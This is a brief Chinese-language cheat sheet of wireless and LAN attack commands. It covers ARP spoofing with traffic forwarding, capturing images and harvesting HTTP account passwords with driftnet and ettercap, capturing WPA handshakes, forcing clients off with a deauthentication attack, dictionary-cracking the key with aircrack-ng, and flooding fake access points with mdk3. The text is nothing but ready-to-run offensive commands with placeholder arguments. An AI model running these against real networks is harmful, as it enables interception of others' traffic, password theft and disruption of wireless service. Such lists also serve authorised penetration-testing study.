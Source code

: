 ### ARP欺骗

```shell
# 是否开启流量转发 0 不开启 1 开启
echo 1 > /proc/sys/net/ipv4/ip_forward
# arp欺骗
arpspoof -i 网卡 -t 目标ip 网关
# 抓取图片
driftnet -i 网卡
-a # 后台模式
-d # 图片保存路径
# 获取http请求账号密码
ettercap -Tq -i 网卡
```

### WPA破解


```shell
# 开启监听模式
airmon-ng start wlan0
# 抓包
airodump-ng -w 文件名 临时网卡名
airodump-ng -w 文件名 -c 信道 临时网卡名
# deauth攻击
aireplay-ng -0 10 -a 路由器mac -c 客户端mac 临时网卡名
# 破解密码
aircrack-ng -w 字典 文件名-*.cap
```

### 伪装AP

```shell
mdk3 临时网卡名 b -g -c 信道 -n AP名
```

